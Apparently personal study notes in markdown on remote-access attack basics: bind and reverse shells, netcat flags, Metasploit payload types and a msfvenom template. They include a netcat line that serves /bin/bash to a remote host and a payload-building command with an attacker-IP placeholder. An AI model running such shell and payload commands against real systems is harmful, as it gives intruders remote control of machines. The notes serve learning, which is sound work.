 ## remote access
a. Bind shell: need the ip address of tearget ip address.
b. Reverse shell: redshell.
## Netcat/nc
- a command line tools to read/write.
- netcat -lvp 2222 
- the options are : 
    - -l:listen
    - -v:verbose
    - -p: port
    - -n: No-Dns resolution
- to connect to anyport : nc ipaddress portnumber -e /bin/bash
## payloads
it is a code or command that are deliver and exicuted to perform action.
- os/shell/connection
- in connection part there is : 
    reverse or Bind https: similar but for encryption.
- os/meterpreter/reverse_tcp
- there are two kind of payloads
    1. stage payload deliver in multiple part.
     - os/meterpreter/Bind_tcp
    1. Non-stage payload deliver in one parts.
    - os/meterpreter_Bind_tcp
## Metasploit
it have:
 - Exploits,
 - payloads
 - Auxiliaries
 - Encoders
 - listeners
 - post-exploitation code
 ### there is two use
 - making payload
 - Exploiting vulnerability
 ## msfvenom 
 - msfvenom -p "payload" Lhost= Attacker ip address Lport="port adress" -f "format" -o name.format.